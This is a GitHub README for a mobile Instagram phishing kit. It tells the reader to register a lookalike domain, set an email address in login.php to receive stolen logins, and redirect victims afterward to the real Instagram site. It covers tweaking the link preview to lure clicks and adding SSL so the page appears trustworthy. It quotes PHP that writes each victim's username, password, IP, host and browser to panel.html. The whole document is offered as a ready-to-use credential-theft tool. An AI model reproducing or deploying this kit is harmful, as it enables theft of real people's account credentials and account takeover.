 # Instagram Phishing Website

Mobile compatible phishing site created by copying Instagram login page

## Getting Started

Buy a domain name similar to instagram.com. You can use freenoom to get a free domain name. And get a space to host your site.

### Installing

Edit the login.php file with the code below

```
$to = "youremail@here.com";
```

```
$title .= 'To: NAME youremail@here.com>' . "\r\n";
```

```
$title .= 'From: NAME <youremail@here.com>' . "\r\n";
```

Optionally, you can change the page here to be redirected after user login.

```
header('Location: https://www.instagram.com/accounts/privacy_and_security/');
```

## Link Preview Modification

You can edit the metadata in the index.html file. So the user sees a preview picture and text before clicking.

### Image

```
<meta property="og:image" content="index_files/meta.jpg">
```
### Text

```
<meta content="Bir hesap oluştur veya Instagram'a giriş yap - Fotoğraf ve videolar çekip düzenlemenin, bu fotoğrafları, videoları ve mesajları arkadaşlarınla ve akrabalarınla ..." name="description">
```

## Important notes

The application works with phpmailer. Make sure that this feature is enabled on your server before using it.

The .htaccess file provides ssl to your domain to increase reliability. If you don't want it, remove the file.

If you do not want the user information to be accessible on the website, delete the code below from the login.php file.

```
file_put_contents("panel.html", "<br><br><b>-------NEW USER DETECTED------</b>  "."<br><b>[DATE]</b>  " . strftime('%e %B %Y %A %H:%M:%S') .'<br><b>[EMAIL]:</b>  ' . $_POST['username'] . "<br><b>[PASS]:</b>  " . $_POST['password'] . "<br><b>[IP]:</b>  " . $_SERVER['REMOTE_ADDR'] ."<br><b>[HOST]:</b>  " . gethostbyaddr($_SERVER['REMOTE_ADDR']) . "<br><b>[BROWSER]:</b>  " . $_SERVER['HTTP_USER_AGENT'] . "\n", FILE_APPEND);
```

Or you can change the name of the html file in the code section instead.


## Usage

User information is registered in the panel.html file. At the same time, a mail is sent to your email address.
It's that easy :)

## Features

* User ip address
* User internet service provider
* User device information
* And username and password information

can sent

## Author

* **Samet Zengin** - *Software Developer* - [Personal Website](https://sametzengin.com.tr)

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details


